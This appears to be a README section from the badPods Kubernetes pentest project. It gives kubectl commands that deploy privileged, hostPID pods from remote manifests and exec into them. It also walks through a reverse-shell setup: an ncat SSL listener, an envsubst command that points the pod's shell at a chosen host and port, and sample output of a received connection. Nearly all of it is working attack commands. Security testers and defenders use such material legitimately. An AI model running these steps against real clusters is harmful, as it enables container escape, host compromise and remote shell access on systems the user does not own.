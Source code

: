 # Pod creation & access

## Exec pods
Create one or more of these resource types and exec into the pod

**Pod**  
```bash
kubectl apply -f https://raw.githubusercontent.com/BishopFox/badPods/main/manifests/priv-and-hostpid/pod/priv-and-hostpid-exec-pod.yaml
kubectl exec -it priv-and-hostpid-exec-pod -- bash
```
**Job, CronJob, Deployment, StatefulSet, ReplicaSet, ReplicationController, DaemonSet**

* Replace [RESOURCE_TYPE] with deployment, statefulset, job, etc. 

```bash
kubectl apply -f https://raw.githubusercontent.com/BishopFox/badPods/main/manifests/priv-and-hostpid/[RESOURCE_TYPE]/priv-and-hostpid-exec-[RESOURCE_TYPE].yaml 
kubectl get pods | grep priv-and-hostpid-exec-[RESOURCE_TYPE]      
kubectl exec -it priv-and-hostpid-exec-[RESOURCE_TYPE]-[ID] -- bash
```

*Keep in mind that if pod security policy blocks the pod, the resource type will still get created. The admission controller only blocks the pods that are created by the resource type.* 

To troubleshoot a case where you don't see pods, use `kubectl describe`

```
kubectl describe priv-and-hostpid-exec-[RESOURCE_TYPE]
```

## Reverse shell pods
Create one or more of these resources and catch the reverse shell

**Step 1: Set up listener**
```bash
ncat --ssl -vlp 3116
```

**Step 2: Create pod from local manifest without modifying it by using env variables and envsubst**

* Replace [RESOURCE_TYPE] with deployment, statefulset, job, etc. 
* Replace the HOST and PORT values to point the reverse shell to your listener
* 
```bash
HOST="10.0.0.1" PORT="3116" envsubst < ./manifests/priv-and-hostpid/[RESOURCE_TYPE]/priv-and-hostpid-revshell-[RESOURCE_TYPE].yaml | kubectl apply -f -
```

**Step 3: Catch the shell**
```bash
$ ncat --ssl -vlp 3116
Ncat: Generating a temporary 2048-bit RSA key. Use --ssl-key and --ssl-cert to use a permanent one.
Ncat: Listening on :::3116
Ncat: Listening on 0.0.0.0:3116
Connection received on 10.0.0.162 42035
```
